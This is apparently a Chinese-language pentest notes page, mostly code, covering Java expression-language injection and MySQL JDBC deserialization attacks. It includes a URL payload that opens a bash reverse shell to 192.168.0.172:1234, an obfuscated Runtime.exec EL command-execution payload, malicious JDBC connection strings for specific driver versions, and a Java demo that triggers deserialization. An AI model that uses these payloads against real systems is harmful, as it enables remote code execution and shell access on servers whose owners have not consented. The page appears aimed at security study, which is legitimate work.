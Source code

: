 ```java
http://127.0.0.1:8080/test?input=new%20java.lang.ProcessBuilder("calc").start()
http://localhost:8088/test?input=new java.lang.ProcessBuilder(new String[]{"bash", "-c", "bash -i >& /dev/tcp/192.168.0.172/1234 0>&1"}).start()
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1646444389718-7b439809-4def-4841-bef1-f72d6477274e.png#clientId=ub3083a93-70c9-4&from=paste&height=342&id=ue5252b03&originHeight=683&originWidth=1425&originalType=binary&ratio=1&rotation=0&showTitle=false&size=196087&status=done&style=none&taskId=u7e72630a-913f-47f7-9200-9ed7296862e&title=&width=712.5)

**EL**
```java
https://xxxx.com/login?service=${1000-900}
https://xxxx.com/login?service=${applicationScope} //获取web路径

命令执行payload
#{T(String).forName("ja"+"va.lang.Run"+"time").getMethod("ex"+"ec",T(String[])).invoke(T(String).forName("ja"+"va.lang.Run"+"time").getMethod("getRu"+"ntime").invoke(null),new String[]{"bash", "-c", "calc"})}
```
<a name="sHfOB"></a>
### JDBC反序列化
漏洞版本
```java
ServerStatusDiffInterceptor触发：
8.x:jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
6.x(属性名不同):jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
5.1.11及以上的5.x版本（包名没有了cj）:jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc
5.1.10及以下的5.1.X版本： 同上，但是需要连接后执行查询。
5.0.x: 不可用

detectCustomCollations触发：
5.1.41及以上: 不可用
5.1.29-5.1.40:jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc
5.1.28-5.1.19：jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc
5.1.18以下的5.1.x版本： 不可用
5.0.x版本不可用
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647826098532-6192344d-027d-4dce-bc1f-a578864ed047.png#clientId=u951535c1-270d-4&from=paste&height=520&id=uf0abf07b&originHeight=693&originWidth=1001&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68845&status=done&style=none&taskId=uad0a3da3-6e21-4a53-a5ee-d6742199037&title=&width=751)

demo
```java
public class test1 {
    public static void main(String[] args) throws Exception{
        String driver = "com.mysql.jdbc.Driver";
        String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc";//8.x使用
        //String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc";//5.x使用
        Class.forName(driver);
        Connection conn = DriverManager.getConnection(DB_URL);
    }
}
```
